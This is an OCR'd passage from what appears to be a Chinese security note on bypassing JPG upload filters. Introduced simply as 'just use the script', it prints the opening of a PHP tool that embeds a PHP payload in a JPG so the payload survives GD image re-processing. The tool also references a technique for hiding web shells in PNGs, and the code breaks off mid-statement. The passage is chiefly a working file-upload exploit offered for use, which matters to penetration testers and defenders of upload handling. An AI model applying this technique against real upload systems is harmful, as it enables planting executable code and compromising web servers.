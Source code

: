 ##### JPG文件绕过

直接上脚本

```php
<?php
    /*

    The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
    It is necessary that the size and quality of the initial image are the same as those of the processed image.

    1) Upload an arbitrary image via secured files upload script
    2) Save the processed image and launch:
    jpg_payload.php <jpg_name.jpg>

    In case of successful injection you will get a specially crafted image, which should be uploaded again.

    Since the most straightforward injection method is used, the following problems can occur:
    1) After the second processing the injected data may become partially corrupted.
    2) The jpg_payload.php script outputs "Something's wrong".
    If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.

    Sergey Bobrov @Black2Fan.

    See also:
    https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

    */

    $miniPayload = "<?=phpinfo();?>";


    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }

    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }

    set_error_handler("custom_error_handler");

    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;

        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }

        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp = 
```